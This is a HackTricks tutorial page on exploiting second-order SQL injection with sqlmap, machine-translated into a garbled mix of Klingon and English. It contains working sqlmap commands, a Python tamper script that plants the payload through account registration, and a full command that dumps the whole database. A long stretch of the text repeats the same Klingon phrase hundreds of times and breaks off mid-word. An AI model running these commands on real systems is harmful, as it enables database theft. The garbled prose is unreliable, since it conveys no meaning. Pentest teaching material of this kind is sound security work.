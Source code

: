 <details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>!</strong></a> <strong>tlhIngan Hol</strong></summary>

**HackTricks** poHmoH:

* **HackTricks** **Dochmey** **advertised** **company** **want** **download HackTricks** **PDF** **Check** [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* **official PEASS & HackTricks swag** **Get** [**swag**](https://peass.creator-spring.com)
* **PEASS Family** **Discover** [**The PEASS Family**](https://opensea.io/collection/the-peass-family), **exclusive NFTs** **collection** [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) **telegram group** **follow** **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share** **hacking tricks** **submitting PRs** [**HackTricks**](https://github.com/carlospolop/hacktricks) **HackTricks Cloud** **github repos**.

</details>


**SQLMap** **Second Order SQLis** **exploit** **can**.\
**provide** **need**:

* **request** **sqlinjection payload** **saved**
* **request** **payload** **executed**

**SQL injection payload** **saved** **request** **indicated** **any other injection in sqlmap**. **output/execution** **injection** **sqlmap** **read** **request** `--second-url` **indicated** `--second-req` **need** **complete request** **indicate** **file**.

**Simple second order example:**
```bash
#Get the SQL payload execution with a GET to a url
sqlmap -r login.txt -p username --second-url "http://10.10.10.10/details.php"

#Get the SQL payload execution sending a custom request from a file
sqlmap -r login.txt -p username --second-req details.txt
```
**ghItlhmeH** **vItlhutlh** **ghaH** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **payload** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pagh** **'e'** **vItlhutlh** **'ej** **pag
```python
#!/usr/bin/env python

import re
import requests
from lib.core.enums import PRIORITY
__priority__ = PRIORITY.NORMAL

def dependencies():
pass

def login_account(payload):
proxies = {'http':'http://127.0.0.1:8080'}
cookies = {"PHPSESSID": "6laafab1f6om5rqjsbvhmq9mf2"}

params = {"username":"asdasdasd", "email":payload, "password":"11111111"}
url = "http://10.10.10.10/create.php"
pr = requests.post(url, data=params, cookies=cookies, verify=False, allow_redirects=True, proxies=proxies)

url = "http://10.10.10.10/exit.php"
pr = requests.get(url, cookies=cookies, verify=False, allow_redirects=True, proxies=proxies)

def tamper(payload, **kwargs):
headers = kwargs.get("headers", {})
login_account(payload)
return payload
```
**SQLMap tamper jatlhlaHbe'chugh injection try payload vItlhutlh. vaj payload vItlhutlh.** **vaj payload vItlhutlh.** vaj payload vItlhutlh. vaj payload vItlhutlh.

So, vaj reason vItlhutlh vaj second order SQL injection exploit vItlhutlh:

* "email" field vIlo'laHbe'chugh SQLi payload account yInIDlu'
* Logout
* account vIlo'laHbe'chugh login (login.txt)
* SQL injection vIlo'laHbe'chugh request yInIDlu' (second.txt)

**This sqlmap line will help:**
```bash
sqlmap --tamper tamper.py -r login.txt -p email --second-req second.txt --proxy http://127.0.0.1:8080 --prefix "a2344r3F'" --technique=U --dbms mysql --union-char "DTEC" -a
##########
# --tamper tamper.py : Indicates the tamper to execute before trying each SQLipayload
# -r login.txt : Indicates the request to send the SQLi payload
# -p email : Focus on email parameter (you can do this with an "email=*" inside login.txt
# --second-req second.txt : Request to send to execute the SQLi and get the ouput
# --proxy http://127.0.0.1:8080 : Use this proxy
# --technique=U : Help sqlmap indicating the technique to use
# --dbms mysql : Help sqlmap indicating the dbms
# --prefix "a2344r3F'" : Help sqlmap detecting the injection indicating the prefix
# --union-char "DTEC" : Help sqlmap indicating a different union-char so it can identify the vuln
# -a : Dump all
```
<details>

<summary><strong>qaStaHvIS AWS hacking vItlhutlh</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

